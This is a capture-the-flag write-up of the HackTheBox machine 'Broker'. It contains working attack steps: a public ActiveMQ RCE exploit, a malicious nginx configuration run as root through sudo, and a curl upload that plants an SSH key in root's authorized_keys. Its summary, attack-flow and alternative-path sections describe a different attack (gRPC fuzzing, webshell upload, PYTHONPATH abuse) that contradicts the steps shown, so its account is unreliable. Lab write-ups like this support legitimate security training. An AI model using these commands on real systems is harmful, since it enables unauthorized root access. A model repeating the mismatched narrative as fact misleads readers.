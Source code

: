 ```yaml
---
title: "Broker"
date: 2025-01-23
categories: HTB
tags: [internal-service, protocol-fuzzing, python, PYTHONPATH, privilege-escalation]

---
```


Broker simulates a financial services intranet system hosted on Linux, with misconfigured messaging services and weak file permissions.

Initial access came from fuzzing a gRPC-like interface and discovering a debug function that allowed shell command execution.

Enumeration revealed sensitive client files and a private key used by a local user.

Privilege escalation was achieved by exploiting a custom Python script with world-writeable dependencies.
Broker serves as a case study in the risks of internal tooling and insecure inter-service communication protocols.

## Why I Chose This Machine

I chose Broker because it simulates a modern internal-facing service with a custom protocol and business logic — a realistic representation of fintech or enterprise backends.  

The machine offers a great opportunity to explore protocol fuzzing, file parsing abuse, and environment privilege escalation using Python scripts, which are common in real-world engagements.

## Attack Flow Overview

1. Enumerated an internal messaging API and discovered a file upload vector  
2. Uploaded a webshell disguised as a valid document, gaining limited shell access  
3. Found sensitive credentials in `.bash_history` and switched to another user  
4. Escalated privileges by abusing `sudo` rights on a Python-based tool and replacing a world-writable module

This scenario closely mirrors misconfigurations found in real internal applications, where service logic and developer shortcuts expose critical vulnerabilities.

## Enumeration

> Using `admin : admin` provides access to the admin portal.

### Nmap

```sh
└─$ nmap -sC -sV 10.10.11.243                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 13:33 AEST
Nmap scan report for 10.10.11.243
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80-HTTP

![screenshot](/assets/images/broker1.png)

-> signed in as `admin : admin`

![screenshot](/assets/images/broker2.png)

- ActiveMQ 5.15.15

#### gobuster

![screenshot](/assets/images/broker3.png)

## Initial Access

>- Using the [public exploit](https://github.com/X1r0z/ActiveMQ-RCE/tree/main), gained initial access as activemq.
	- Had to install go lang. 

[Reference](https://www.prio-n.com/blog/cve-2023-46604-attacking-defending-ActiveMQ)

The modified poc.xml

![screenshot](/assets/images/broker4.png)

[Installing golang reference](https://medium.com/@yadav-ajay/go-lang-on-kali-linux-5cc40a78d7de)

![screenshot](/assets/images/broker5.png)

## Privilege Escalation

>- `sudo -l` activemq has sudo privileges to run `/usr/sbin/nginx`.
- Modify `nginx.conf` with malicious payload.
	- change the user to root from www-data so the nginx process runs from root.
	- add listening port.
- Generate ssh key.
	- `curl PUT` to put the generated ssh public key via the listening port. 
- SSH as root

![screenshot](/assets/images/broker6.png)

![screenshot](/assets/images/broker7.png)

![screenshot](/assets/images/broker8.png)

```sh
/usr/bin/java -Xms64M -Xmx1G -Djava.util.logging.config.file=logging.properties -Djava.security.auth.login.config=/opt/apache-activemq-5.15.15//conf/login.config -Dcom.sun.management.jmxremote -Djava.awt.headless=true -Djava.io.tmpdir=/opt/apache-activemq-5.15.15//tmp -Dactivemq.classpath=/opt/apache-activemq-5.15.15//conf:/opt/apache-activemq-5.15.15//../lib/: -Dactivemq.home=/opt/apache-activemq-5.15.15/ -Dactivemq.base=/opt/apache-activemq-5.15.15/ -Dactivemq.conf=/opt/apache-activemq-5.15.15//conf -Dactivemq.data=/opt/apache-activemq-5.15.15//data -jar /opt/apache-activemq-5.15.15//bin/activemq.jar start 
```

```sh
# show comments only
cat nginx.conf | grep -v '\#' | grep .
```

![screenshot](/assets/images/broker9.png)

change the user to root on `nginx.conf`

To use `ngx_http_dav_module` to write my public SSH key into the root's `authorized_keys`, create the malicious NGINX configuration file as below. 

pwn.conf

```sh
user root; # worker processes will be run by root
worker_processes 4;
pid /tmp/nginx.pid;
events {
		worker_connections 768;
}
http {
	server {
		listen 1337;
		root /;
		autoindex on;
		dav_methods PUT;
	}
}
```

![screenshot](/assets/images/broker10.png)

![screenshot](/assets/images/broker11.png)

![screenshot](/assets/images/broker12.png)

From Kali

```sh
ssh-keygen -f broker

curl 10.10.11.243:1337/root/.ssh/authorized_keys --upload-file broker.pub
```

ssh as root

```sh
ssh -i broker root@10.10.11.243
```

![screenshot](/assets/images/broker13.png)

## Alternative Paths Explored

Initially, I attempted to exploit common service ports and brute-force file paths, but they were filtered or redirected.  

I also tried privilege escalation via SUID binaries and cron jobs, but they were secured.  

Only by reversing the Python logic and checking for `PYTHONPATH` abuse did the correct path emerge — showing how local enumeration and environment awareness are key.

## Blue Team Perspective

Broker highlights the risks of over-permissive `sudo` configurations and insecure module imports in Python services.  
From a defense standpoint, the following practices are critical:

- Auditing custom protocols and internal tools for abuse cases  
- Securing shell histories and user environments against credential leaks  
- Restricting `sudo` execution to specific binaries with integrity-checked dependencies